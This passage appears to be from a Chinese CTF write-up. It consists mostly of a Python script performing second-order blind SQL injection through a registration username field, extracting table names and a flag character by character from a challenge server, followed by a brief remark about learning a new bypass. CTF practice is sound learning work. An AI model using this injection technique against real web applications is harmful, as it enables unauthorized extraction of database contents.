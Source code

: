 ```
    tables = ''
    for i in range(10):
        data_tables = {
            'username':"0'+ascii(substr((select tables()) from "+str(i+1)+" for 1))+'0",
            'password':'admin',
            "email":"admin12@admin.com"+str(i)
        }
        #注册
        requests.post("http://220.249.52.133:59578/register.php",data_tables)
        login_data={
            'password':'admin',
            "email":"admin12@admin.com"+str(i)
        }
        response=requests.post("http://220.249.52.133:59578/login.php",login_data)
        html=response.text                  #返回的页面
        soup=BeautifulSoup(html,'html.parser')
        getUsername=soup.find_all('span')[0]#获取用户名
        username=getUsername.text
        if int(username)==0:
            break
        tables+=chr(int(username))
    return tables
'''
print(getTables())
'''

def getFlag():
    flag = ''
    for i in range(40):
        data_flag = {
            'username':"0'+ascii(substr((select * from flag) from "+str(i+1)+" for 1))+'0",
            'password':'admin',
            "email":"admin32@admin.com"+str(i)
        }
        #注册
        requests.post("http://220.249.52.133:59578/register.php",data_flag)
        login_data={
            'password':'admin',
            "email":"admin32@admin.com"+str(i)
        }
        response=requests.post("http://220.249.52.133:59578/login.php",login_data)
        html=response.text                  #返回的页面
        soup=BeautifulSoup(html,'html.parser')
        getUsername=soup.find_all('span')[0]#获取用户名
        username=getUsername.text
        if int(username)==0:
            break
        flag+=chr(int(username))
    return flag

print(getFlag())


```

本题表名全靠猜，脚本全靠抄，哈哈。

不过又学会了一种绕过姿势。